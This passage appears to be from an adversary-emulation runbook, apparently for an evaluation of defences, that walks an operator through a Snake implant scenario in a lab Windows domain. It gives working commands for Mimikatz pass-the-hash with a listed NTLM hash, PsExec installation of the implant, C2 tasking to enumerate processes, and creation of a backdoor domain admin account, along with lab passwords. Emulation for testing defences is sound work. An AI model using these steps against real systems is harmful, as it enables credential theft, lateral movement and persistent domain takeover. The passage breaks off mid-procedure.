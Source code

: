 * Wait 1 minute and then in the same elevated cmd prompt, perform pass-the-hash via MimiKatz using `ZilvinasAdmin`'s NTLM hash to run PsExec and install Snake on the target workstation.

```bat
C:\Windows\System32\loadperf.exe pr::d "slsa::htp /user:ZilvinasAdmin /ntlm:f3fcd61f987a97da49ce5f650b4e6539 /domain:nk.local /remotepc:uosis /pexe:C:\Windows\System32\fs_mgr.exe /sys:1 /prun:C:\Windows\System32\cmu_svc.exe" quit
```

* Check both the `berzas (10.100.30.204)` and `uosis (10.100.40.102)` RDP
sessions for indicators of blocked activity.

:arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `Zilvinas`:

* Open Edge and navigate to `https://drebule.nk.local/owa`. Log in as `Zilvinas`:

| Username   | Password |
| :--------: | :---------------: |
| nk\Zilvinas  | Producer2! |

* Spend a couple minutes reading through any unread emails to wait for the implant to start beaconing back to the C2 server.

:arrow_right: Return to the Kali C2 terminal window and verify that a new implant session is beaconing back to the C2 server.

* From the lower terminal window, task Snake to enumerate running processes on the machine to discover processes under `ZilvinasAdmin`.

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 3, "proc": "tasklist.exe", "args": "/v"}'
```

* :heavy_exclamation_mark: Verify that we find processes running under `ZilvinasAdmin`

```bash
grep 'NK\\ZilvinasAdmin' logs.txt -i 
```

> This should return output similar to the following:
>
>```text
>powershell.exe                8152 RDP-Tcp#2                  3     83,280 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
>conhost.exe                    312 RDP-Tcp#2                  3     17,356 K Unknown         NK\ZilvinasAdmin                                        0:00:00 N/A
>```

* Wait 1 minute, then instruct Snake to create a new domain user `Leshy` using an access token from one of the `ZilvinasAdmin` processes. `Leshy` will be used as a backdoor domain admin account for persistence on the domain.

```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net user leshy Password12345 /add /domain", "runas": "nk\\zilvinasadmin"}'
```

* Wait 1 minute, then instruct Snake to add `Leshy` to the `Domain Admins` group.
